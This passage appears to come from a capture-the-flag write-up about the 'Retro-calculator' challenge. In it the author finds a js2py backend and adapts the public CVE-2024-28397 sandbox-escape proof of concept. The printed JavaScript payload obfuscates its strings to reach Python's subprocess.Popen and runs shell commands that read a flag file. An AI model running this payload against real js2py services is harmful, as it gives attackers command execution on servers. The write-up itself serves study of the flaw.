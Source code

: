 First I thought it's totally JS backend but after searching for the error I found that it's js2py from [here](https://stackoverflow.com/questions/64855107/how-to-render-ecmascript-6-with-python)

I didn't want to start fuzzing what works and what doesn't or whether there was any WAFs, I started looking for any possible CVEs and found unresolved one [CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape). I copied the `poc.py` payload and tried to execute, there where I started to dive into the endless "Hacking Attempts" rabbit hole.

![Retro-calculator](/assets/images/deadsec-writeups/retro-calculator-02.png)

I am sure this is the worst way to go, but I kept playing around with the payload until it actually just worked (+1 for trying harder approach).

```js
let cmd = 'ls /; cat /flag.txt; '; cmd;let hacked, bymarve, n11;let getattr, obj;hacked = Object.getOwnPropertyNames({});bymarve = hacked.__getattribute__;n11 = bymarve('__getattribute__');obj = n11('__class__').__base__;getattr = obj.__getattribute__;function findpopen(o) {let result; let zed = '__sub' + 'classes__';for (let i in  o[zed]()){ let item = o[zed]()[i];let nm='__name__'; let sb='subp'+'roces';if (item.__module__ == sb+'s' &&item.__name__=='P'+'open'){return item}if(item.__name__!='type'&&(result=findpopen(item))){ return result } }};n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
```

That was weird but fun!

## Colorful Board

- Difficulty: Medium
